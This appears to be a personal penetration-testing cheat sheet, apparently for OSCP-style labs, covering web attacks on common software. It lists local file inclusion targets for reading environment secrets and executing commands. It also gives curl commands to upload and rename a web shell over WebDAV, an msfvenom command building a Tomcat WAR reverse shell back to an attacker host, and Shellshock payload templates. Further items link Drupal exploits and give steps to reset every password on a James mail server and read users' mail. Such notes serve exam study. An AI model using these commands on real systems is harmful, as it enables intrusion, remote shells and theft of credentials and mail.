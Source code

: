 #### LFI notes
* /proc/self/status can see the web server current run as which user and proc id etc
* /proc/self/environ see process environment variable, potential password stored in env
* /var/log/apache2/access.log is one example of log paths, may fuzz with these [lists](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders) to see which files are usable
* /var/mail/TARGET_USER, at the end of request add a &cmd to execute command
* if you have write access to the host, upload a file that the host, use LFI filter to check if the file uploaded correctly(path and extension), remove the base64 wrapper for execution
* [null byte termination](https://gabb4r.gitbook.io/oscp-notes/web-http/lfi-and-rfi/null-byte-injection) `%00` only works before php 5.3
* if none of these work, try to view config.php,db_connect.php and see if they left any creds

### webdav
```bash
davtest -url IP -sendbd auto
# see want can be sent and executed
# say if txt and html can be executed
# copy your web shell and name it as .txt
curl -X PUT http://IP/shell.txt --data-binary @shell.txt 
curl -X MOVE -H "Destination:http://IP/shell.aspx" http://IP/shell.txt
```

### tomcat 
```bash
# use the enumerated login for manager portal
# create payload, add EXITFUNC=thread if target is Windows
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war -o rev.war
# go to manager panel -> war file to deploy
# click on the deployed war url for invoking reverse shell
```

### ShellShock

```bash
curl -A "() { :; }; PAYLOAD" http://IP/cgi-bin/cgi-script 
 
curl -H "User-Agent: () { :; }; PAYLOAD" http://IP/cgi-bin/cgi-script
```

### drupal
``` bash
droopescan scan -u IP
# initial shell(limited function) 
# https://github.com/dreadlocked/Drupalgeddon2 
# only command execution 
# https://github.com/Jack-Barradell/exploits/blob/master/CVE-2018-7600/cve-2018-7600-drupal7.py
```

### James Admin Server initial foothold & POP3
```bash
# If you find something on port 4555 and also running POP3
# try login to port 4555 via telnet with root:root
# if you successfully login, run
listusers
# reset all the password
setpassword USER 123
#Then connect to port 110 POP3, login all user account to read the mail
USER USER
PASS 123
LIST
RETR 1
```
